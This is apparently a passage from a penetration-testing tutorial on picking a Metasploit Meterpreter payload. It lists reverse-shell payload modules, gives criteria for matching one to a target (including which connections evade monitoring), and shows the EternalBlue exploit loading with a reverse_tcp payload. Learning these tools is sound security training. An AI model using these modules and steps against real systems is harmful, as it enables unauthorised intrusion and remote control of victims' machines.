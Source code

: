 ```bash
    java/meterpreter/reverse_https                      Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                        Run a meterpreter server in Java. Connect back stager
    linux/aarch64/meterpreter/reverse_tcp               Inject the mettle server payload (staged). Connect back to the attacker
    linux/aarch64/meterpreter_reverse_http              Run the Meterpreter / Mettle server payload (stageless)
    linux/aarch64/meterpreter_reverse_https             Run the Meterpreter / Mettle server payload (stageless)
    linux/aarch64/meterpreter_reverse_tcp               Run the Meterpreter / Mettle server payload (stageless)
    linux/armbe/meterpreter_reverse_http                Run the Meterpreter / Mettle server payload (stageless)
    linux/armbe/meterpreter_reverse_https               Run the Meterpreter / Mettle server payload (stageless)
    linux/armbe/meterpreter_reverse_tcp                 Run the Meterpreter / Mettle server payload (stageless)
    linux/armle/meterpreter/bind_tcp                    Inject the mettle server payload (staged). Listen for a connection
    linux/armle/meterpreter/reverse_tcp                 Inject the mettle server payload (staged). Connect back to the attacker [...]
 ```

The list will show Meterpreter versions available for the following platforms:
- Android
- Apple iOS
- Java
- Linux
- OSX
- PHP
- Python
- Windows

Your decision on which version of Meterpreter to use will be mostly based on three factors:
- The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
- Components available on the target system (Is Python installed? Is this a PHP website? etc.)
- Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.) 
 
If you are not using Meterpreter as a standalone payload generated by Msfvenom, your choice may also be limited by the exploit. You will notice some exploits will have a default Meterpreter payload, as you can see in the example below with the ms17_010_eternalblue exploit. 

**Default payload for MS17-010**
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
